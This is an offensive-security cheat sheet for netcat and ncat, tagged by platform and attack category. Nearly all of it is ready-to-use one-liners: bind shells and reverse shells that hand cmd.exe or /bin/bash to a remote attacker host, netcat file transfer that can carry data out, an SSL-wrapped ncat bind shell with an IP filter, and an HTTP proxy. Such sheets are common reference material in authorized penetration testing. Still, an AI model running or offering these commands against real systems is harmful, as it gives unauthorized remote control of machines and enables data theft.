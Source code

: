 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## Netcat - Setup Listener
Sets up a Netcat listener for incoming connections.
```
nc -lvnp <lport>
```

## Netcat - Windows Bind Shell
Creates a bind shell on a Windows target, listening for incoming connections.
#plateform/windows 
```
nc -lvnp <port> -e cmd.exe
```

## Netcat - Linux Bind Shell
Creates a bind shell on a Linux target, listening for incoming connections.
#plateform/linux
```
nc -lvnp <port> -e /bin/bash
```

## Netcat - Windows Reverse Shell
Connects back to a listener on the attacking machine from a Windows target.
#plateform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## Netcat - Linux Reverse Shell
Connects back to a listener on the attacking machine from a Linux target.
#plateform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## Netcat - File Transfer (Receiver)
Sets up Netcat to receive a file.
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -lvnp <port> > <incoming_file>
```

## Netcat - File Transfer (Sender)
Sends a file using Netcat.
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## Ncat - Bind Shell with SSL and IP Filter
Creates an Ncat bind shell with SSL encryption, allowing connections only from a specified IP.
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## Ncat - Connect to SSL Bind Shell
Connects to an Ncat bind shell that is using SSL.
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## Ncat - HTTP Web Proxy
Sets up Ncat to act as a simple HTTP web proxy.
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

